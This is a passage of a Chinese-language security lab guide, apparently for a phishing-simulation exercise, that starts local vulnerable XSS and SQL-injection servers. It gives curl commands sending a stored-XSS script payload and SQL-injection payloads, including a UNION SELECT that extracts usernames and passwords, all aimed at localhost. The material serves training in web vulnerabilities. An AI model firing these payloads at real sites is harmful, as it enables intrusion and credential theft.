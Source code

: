 
## 🎣 第三阶段：钓鱼仿真测试 (15分钟)

### 3.1 实验#3: XSS漏洞攻击测试

#### 启动XSS服务器
```bash
# 启动Gophish钓鱼仿真系统
cd examples/.not_ready_examples/gophish基础实验
./start_simulation.sh

# 或者单独启动XSS服务器
python3 vulnerable_servers/web_xss/xss_server.py
```

#### XSS漏洞测试
```bash
# 访问XSS漏洞页面 (浏览器)
echo "打开浏览器访问: http://localhost:5004"

# 提交XSS攻击payload
curl -X POST http://localhost:5004/submit_feedback \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=测试用户&email=test@example.com&message=<script>alert('XSS攻击成功!')</script>"

# 查看XSS服务器日志
tail -f vulnerable_servers/web_xss/xss_server.log
```

#### ✅ XSS测试验证清单
- [ ] XSS服务器启动正常 (http://localhost:5004)
- [ ] 反馈表单页面可访问
- [ ] XSS payload注入成功
- [ ] 存储型XSS漏洞可复现
- [ ] 攻击日志记录正常

### 3.2 实验#4: SQL注入攻击测试

#### 启动SQL注入服务器
```bash
# 启动SQL注入服务器 (新终端)
cd examples/.not_ready_examples/gophish基础实验/vulnerable_servers/db_sqli
python3 sqli_server.py

# 或者使用统一启动脚本
cd examples/.not_ready_examples/gophish基础实验
./start_simulation.sh
```

#### SQL注入测试
```bash
# 访问SQL注入页面 (浏览器)
echo "打开浏览器访问: http://localhost:5002"

# 测试SQL注入攻击
curl -X POST http://localhost:5002/search \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "employee_id=1' OR '1'='1"

# 查看数据库内容泄露
curl -X POST http://localhost:5002/search \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "employee_id=1' UNION SELECT username, password FROM users --"
```
